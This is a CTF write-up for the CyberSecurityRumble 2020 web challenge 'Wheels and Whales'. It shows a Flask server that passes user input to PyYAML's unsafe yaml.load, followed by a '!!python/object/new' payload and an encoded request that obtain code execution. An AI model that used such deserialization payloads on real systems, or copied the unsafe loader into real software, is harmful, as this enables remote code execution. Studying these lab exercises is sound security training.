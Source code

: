 ```yaml
---
ctf: CyberSecurityRumble
year: 2020
tags:
  - web
  - ace
---
```


# CyberSecurityRumble CTF

## Web

### Wheels and Whales

The goal is this challenge is to run the function `flag.get_flag()`.
The code of the server is provided below, even though most is fluff.

```python
import yaml
from flask import redirect, Flask, render_template, request, abort
from flask import url_for, send_from_directory, make_response, Response
import flag

app = Flask(__name__)

EASTER_WHALE = {"name": "TheBestWhaleIsAWhaleEveryOneLikes", "image_num": 2, "weight": 34}

@app.route("/")
def index():
    return render_template("index.html.jinja", active="home")


class Whale:
    def __init__(self, name, image_num, weight):
        self.name = name
        self.image_num = image_num
        self.weight = weight

    def dump(self):
        return yaml.dump(self.__dict__)


@app.route("/whale", methods=["GET", "POST"])
def whale():
    if request.method == "POST":
        name = request.form["name"]
        if len(name) > 10:
            return make_response("Name to long. Whales can only understand names up to 10 chars", 400)
        image_num = request.form["image_num"]
        weight = request.form["weight"]
        whale = Whale(name, image_num, weight)
        if whale.__dict__ == EASTER_WHALE:
            return make_response(flag.get_flag(), 200)
        return make_response(render_template("whale.html.jinja", w=whale, active="whale"), 200)
    return make_response(render_template("whale_builder.html.jinja", active="whale"), 200)


class Wheel:
    def __init__(self, name, image_num, diameter):
        self.name = name
        self.image_num = image_num
        self.diameter = diameter

    @staticmethod
    def from_configuration(config):
        return Wheel(**yaml.load(config, Loader=yaml.Loader)) # insecure load

    def dump(self):
        return yaml.dump(self.__dict__)


@app.route("/wheel", methods=["GET", "POST"])
def wheel():
    if request.method == "POST":
        if "config" in request.form:
            wheel = Wheel.from_configuration(request.form["config"]) # load usage
            return make_response(render_template("wheel.html.jinja", w=wheel, active="wheel"), 200)
        name = request.form["name"]
        image_num = request.form["image_num"]
        diameter = request.form["diameter"]
        wheel = Wheel(name, image_num, diameter)
        print(wheel.dump())
        return make_response(render_template("wheel.html.jinja", w=wheel, active="wheel"), 200)
    return make_response(render_template("wheel_builder.html.jinja", active="wheel"), 200)

if __name__ == '__main__':
    app.run(host="0.0.0.0", port=5000)
```

The server is able to serialize and deserialize `yaml`,
we can leverage the usage of an insecure loader to get ACE.

We are in luck as the function has recently deprecated and `pyyaml`'s wiki has a [post](https://github.com/yaml/pyyaml/wiki/PyYAML-yaml.load(input)-Deprecation) explaining the reasons and providing an example.

The example is as follows:

```sh
python -c 'import yaml; yaml.load("!!python/object/new:os.system [echo EXPLOIT!]")'
```

From the example we can craft our own payload,
`name` contains the malicious command which calls `flag.get_flag`,
with `[]` as argument since the function does not take any.

This will evaluate the call and return the flag as our wheel name.

```
name: !!python/object/new:flag.get_flag []
image_num: 2
diameter: 2
```

What is left is to send a request with `?config=name:%20!!python/object/new:flag.get_flag%20%5B%5D%0Aimage_num:%202%0Adiameter:%202`.

